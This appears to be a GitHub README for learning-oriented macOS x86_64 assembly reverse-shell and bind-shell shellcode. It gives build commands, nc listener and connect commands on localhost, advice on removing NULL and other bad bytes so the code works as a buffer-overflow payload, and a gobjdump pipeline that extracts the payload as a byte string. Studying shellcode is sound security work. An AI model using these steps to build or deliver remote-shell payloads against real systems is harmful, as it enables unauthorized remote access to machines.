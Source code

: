 reverse_shell
=============

program that call out to a service that is listening to port 4444, the ip is set to any for simplicity.

It is written for mac osx 64 bit

#### reverse_shell, Usage:
  Start a listening server with the command: `nc -l 4444` in another folder for example your home directory
```
  nasm -g -f macho64 reverse_shell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o reverse_shell reverse_shell.o
  ./reverse_shell
```  

#### bindshell, Usage:
  bindshell start a listening server that you can connect to with the command: `nc -nv 127.0.0.1 4444` in another folder for example your home directory
  (Had some problem with the code, but @norsec0de and @TheColonial helped me to fix it, big thx to them for the help)
```
  nasm -g -f macho64 bindshell.s
  ld  -arch x86_64 -macosx_version_min 10.7.0 -lSystem -o bindshell bindshell.o
  ./bindshell
```  
Go to the terminal and run `nc -nv 127.0.0.1 4444` then type ls, you should now see a directory listing of the directory you started
bindshell in.


To use the code as a payload, one need to remove the NULL bytes, these can be found by running: otool -lV reverse_shell and identify
the mov instructions that need to be modified. The reason are the numerous NULL bytes (\x00). 
Most buffer overflow errors are related to C stdlib string functions: strcpy(), sprintf(), strcat(), 
and so on. All of these functions use the NULL symbol to indicate the end of a string. 
Therefore, a function will not read shellcode after the first occurring NULL byte.
There are other delimiters like linefeed (0x0A), carriage return (0x0D), 0xFF, and others.
See the code for two example on how to change the mov instruction

#### Binary to string
To convert the binary to string values that can be used as a payload use
```
  gobjdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g' > dump.txt
```
  By inspecting this file, we see why NULL(0x00) is a problem as in C a string is terminated by NULL so these has to be removed
  A simple `paste -d'\0' -s dump.txt` will combine all rows into one that can then be copied into the C file.
  Ànother way to find bad values is:
```
 gobjdump -D bindshell -M intel |grep 00
``` 
  A more simple command to use is the osx otool, `otool -t reverse_shell_no_bad_values.o` we test our reverse_shell code in a simple c-program.  